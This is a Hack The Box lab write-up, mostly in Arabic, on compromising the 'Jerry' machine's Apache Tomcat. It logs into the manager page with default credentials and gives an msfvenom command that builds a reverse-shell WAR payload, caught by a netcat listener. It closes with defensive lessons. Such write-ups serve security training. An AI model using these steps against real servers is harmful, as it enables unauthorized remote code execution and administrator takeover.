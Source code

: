 # 1️⃣ HTB Jerry Lab - Arabic Hack The Box Report

---
## 📍 Basic Information
- **Category:** Web
- **Difficulty:** Easy
- **HTB Link:** [HTB Academy – Jerry ](https://app.hackthebox.com/machines/Jerry)
- **Date Completed:** 2025-07-28

---

## 🔍 1. Recon & Enumeration

### 🌐 Target Information
- **IP:** 10.10.10.95
- **Ports:** 8080 (HTTP)
- **Service:** Apache Tomcat
- **Technology Identified:** Apache Tomcat
- **OS Guessing:** Windows

### 📄 Files / Endpoints Discovered
- `/docs`
- `/manager/html`
- `/examples`

### 🧪 Tools Used
- `nmap`, `ffuf`, ``msfvenom`` 

---

## 🎯 2. Vulnerability Identification

### ✅ Vulnerability Type(s)
- [x] File Upload Attack
- [x] Weak Credential 

### 🧠 Explanation  
اثناء فحص ال Directories وجدت صفحة تسجيل دخول `manager/html` وهي عبارة عن صفحة تسجيل دخول، قمت بالتسجيل بال username وال password الافتراضيين ل Tomcat، وبالفعل استطعت تسجيل الدخول.

<img width="720" height="348" alt="1" src="https://github.com/user-attachments/assets/a1204625-30cd-4629-9603-19206f0d733b" />


لاحظت بصفحة ال `manager` وجود مكان لرفع ملف `Web Application Resource (WAR)` وهو ملف يحتوي على الملفات المبنية ب Java الضرورية لعمل الموقع.

السماح برفع ملفات `WAR` وتمكين المستخدم من تشغيلها بدون تحقق من التوثيق يمثل خلل أمني يسمح بتنفيذ أوامر عن بعد RCE، وهذا يُصنف كـ `Remote Code Execution`.


---

## 🚀 3. Exploitation

### 🔧 Payload Used

بعد بحث خفيف على Google وجدت ان ممكن انشأ ال payload باستخدام `msvenom` : 

```shell
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.15.93 LPORT=9002 -f war > rev_shell.war
```

وطبعاً لازم شغل `Listener` عندي باستخدام `Netcat`:

```shell
nc -lnvp 9002
```


---
### 🎯 Result / Effect

بعد ما جهزت ال Listener وانشأت ال Payload، برفعه على الصفحة، بس ما رح يصير شي عندي لانه صح انرفع بس ما تم تفعيله، لهيك لازم اضغط على رابط ال Payload يلي تم انشائه:

<img width="720" height="301" alt="2" src="https://github.com/user-attachments/assets/256f70ac-3268-4b50-a0ca-8755674675c3" />

---

## 📎 4. Proof of Concept (PoC)

### 💬 Steps to Reproduce:

1. افتح `8080:[Your_IP]` وسجل الدخول بـ:
    
2. بعد الدخول، انتقل مباشرة إلى `/manager/html`
    - username: `tomcat`
        
    - password: `s3cret`
        
    
3. لاحظ ممكن رفع ملف war.
    
4. انشأ payload Java وقم برفعه ثم تشغيله.
    

### 🖼️ Screenshot 

<img width="720" height="246" alt="3" src="https://github.com/user-attachments/assets/c5c23473-9313-487a-aff6-a3e79dd3f9c5" />

<img width="831" height="187" alt="4" src="https://github.com/user-attachments/assets/61ed18c6-3998-42eb-97c3-c9a1cba90978" />

---

## 📊 5. Impact & Risk

- **OWASP Category:** A08:2021 - Software and Data Integrity Failures , A05:2021 - Security Misconfiguration
    
- **CVSS Score:** 9.0 (Critical)
    
- **Impact:**  
    يسمح للمستخدمين غير المصرح لهم بالوصول إلى صلاحية ال `Administrator`
    


---

## 🗒️ 7. Lessons Learned

- ضرورة تعطيل واجهات الإدارة (`manager/html`) أو تقييدها عبر جدار ناري داخلي.
    
- تقييد رفع ملفات WAR لمديرين موثوقين فقط.
    
- فحص ملفات WAR باستخدام AV و sandbox قبل النشر.
    

---

## 🔗 References

- [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136)
    
- [OWASP A08 – Software and Data Integrity Failuresl](https://owasp.org/Top10/A08_2021-Software_and_Data_Integrity_Failures/)
    
- [OWASP A05 – Security Misconfiguration](https://owasp.org/Top10/A05_2021-Security_Misconfiguration/)
    

---

## **tags:**

#HTB_Repo , #Web , #Bug_Bounty , #File_Upload_Attack
